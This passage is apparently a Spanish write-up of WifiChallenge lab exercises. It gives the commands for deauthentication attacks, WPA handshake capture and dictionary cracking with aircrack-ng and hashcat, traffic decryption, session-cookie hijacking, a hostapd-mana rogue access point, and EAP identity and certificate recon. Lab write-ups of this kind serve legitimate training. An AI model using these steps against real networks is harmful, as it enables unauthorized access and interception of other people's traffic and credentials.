

✅ **Flag conseguido** crackeando el cifrado WEP con besside-ng.

---

## 6. PSK

### Pregunta 1 — ¿Cuál es la contraseña del AP wifi-mobile?



El objetivo es capturar el handshake WPA de `wifi-mobile` realizando un **ataque de de-autenticación** para forzar la reconexión del cliente. Se busca información sobre el AP:



`wifi-mobile` emite en el **canal 6**. Se inicia la captura en ese canal:

```bash
airodump-ng wlan0mon -c 6 --bssid <BSSID> -w capturasWifiMobile
```



En Wireshark se confirma que el **MFP (Management Frame Protection) está deshabilitado**, lo que hace factible el ataque de de-autenticación:



Se inicia `wlan1` en el canal 6:

```bash
airmon-ng start wlan1 6
```


Se lanza el ataque de de-autenticación con `aireplay-ng`:

```bash
aireplay-ng -0 10 -a <BSSID_AP> wlan1mon
```


Se captura el handshake y se crackea con `aircrack-ng` usando el diccionario `rockyou`:

```bash
aircrack-ng capturasWifiMobile-01.cap -w /root/rockyou-top100000.txt
```


✅ **Contraseña de wifi-mobile obtenida** mediante captura del handshake WPA y ataque de diccionario.

---

### Pregunta 2 — ¿Cuál es la IP del servidor web en la red wifi-mobile?


Con la contraseña obtenida se descifra el tráfico capturado en `capturasWifiMobile-02.cap` con `airdecap-ng`:

```bash
airdecap-ng -e wifi-mobile -p <CONTRASEÑA> capturasWifiMobile-02.cap
```


Se genera el archivo `dec.cap` con el tráfico descifrado. Se abre con Wireshark:

```bash
wireshark dec.cap
```


Filtrando por tráfico HTTP se identifica la IP del servidor web:


✅ **Respuesta:** La IP del servidor web en `wifi-mobile` es **192.168.2.1**.

---

### Pregunta 3 — ¿Cuál es la flag después de iniciar sesión en wifi-mobile?


Se crea el archivo de configuración `wifi-mobile.conf` con la contraseña obtenida:

```bash
touch wifi-mobile.conf
```


```bash
wpa_supplicant -D nl80211 -i wlan2 -c wifi-mobile.conf
```


```bash
dhclient wlan2
```


Se accede a `192.168.2.1` a través del navegador. Aparece un login:


En lugar de usar usuario/contraseña, se aprovechan las **cookies de sesión** capturadas en el tráfico descifrado `dec.cap`:


Se introduce la cookie en el Cookie Storage del navegador y se recarga la página:


✅ **Flag conseguido** mediante **session hijacking** con la cookie capturada en el tráfico descifrado.

---

### Pregunta 4 — ¿Existe aislamiento de clientes en la red wifi-mobile?


Se ejecuta `arp-scan` para descubrir todos los dispositivos en la red local:

```bash
arp-scan --localnet
```


Se envían peticiones HTTP a las IPs encontradas:

```bash
curl http://<IP>
```


✅ **Respuesta:** No existe aislamiento de clientes — todos los dispositivos devuelven el **mismo flag**, confirmando que los clientes pueden comunicarse entre sí.

---

### Pregunta 5 — ¿Cuál es la contraseña de wifi-offices?


Al buscar `wifi-offices` en airodump no aparece el ESSID, pero sí aparece en la columna **Probes**, lo que indica que hay clientes intentando conectarse:

```bash
airodump-ng wlan0mon --essid wifi-offices
```


Se crea un **AP falso (Rogue AP)** con `hostapd-mana` para que los clientes intenten conectarse y se capturen sus handshakes en formato `.hccapx`:

```bash
touch wifi-offices.conf
```


```bash
hostapd-mana wifi-offices.conf
```


El handshake queda registrado en `wifi-offices.hccapx`:


Se convierte al formato requerido por Hashcat:

```bash
hcxpcapngtool wifi-offices.hccapx -o wifi-offices.22000
```


Se ejecuta Hashcat con ataque de diccionario:

```bash
hashcat -a 0 -m 22000 wifi-offices.22000 /rockyou-top100000.txt --force
```

| Parámetro | Descripción |
|-----------|-------------|
| `-a 0` | Modo ataque por diccionario |
| `-m 22000` | Tipo de hash WPA/WPA2 |
| `wifi-offices.22000` | Handshake capturado en formato Hashcat |
| `/rockyou-top100000.txt` | Diccionario de contraseñas comunes |
| `--force` | Forzar ejecución ignorando advertencias de hardware |


✅ **Contraseña de wifi-offices obtenida** mediante Rogue AP + Hashcat.

---

## 7. Recon MGT

### Pregunta 1 — ¿Cuál es el dominio de los usuarios de la red wifi-regional?


Se captura el tráfico de `wifi-regional` con airodump:

```bash
airodump-ng wlan0mon --essid wifi-regional
```


Está emitiendo en el **canal 44**. Se captura el tráfico guardándolo para Wireshark:

```bash
airodump-ng wlan0mon -c 44 --essid wifi-regional -w wifiRegionalCap
```


Se abre la captura en Wireshark y se filtra por el **protocolo EAP**. En las tramas `Response Identity` se puede ver el campo `Identity` que contiene el dominio:

```bash
wireshark wifiRegionalCap-01.cap
```


✅ **Respuesta:** El dominio de los usuarios de `wifi-regional` es **CONTOSOREG**.

---

### Pregunta 2 — ¿Cuál es la dirección de correo electrónico del certificado del servidor?


> En redes MGT (802.1X/EAP), el AP envía su **certificado TLS sin cifrar** al cliente al iniciar la conexión. Esto permite a un atacante extraer información sensible como dominios internos o emails, o usarlo para suplantar el AP con un **Rogue AP**.

Se usa el script `pcapFilter.sh` (disponible en `/root/tools/`) para extraer el certificado de la captura:

```bash
cd /root/tools/
./pcapFilter.sh -C wifiRegionalCap-01.cap
```


✅ **Dirección de correo obtenida** del certificado TLS del servidor extraído de la captura.

---

## 8. Evidencia

Capturas de la plataforma WifiChallenge mostrando los retos resueltos:


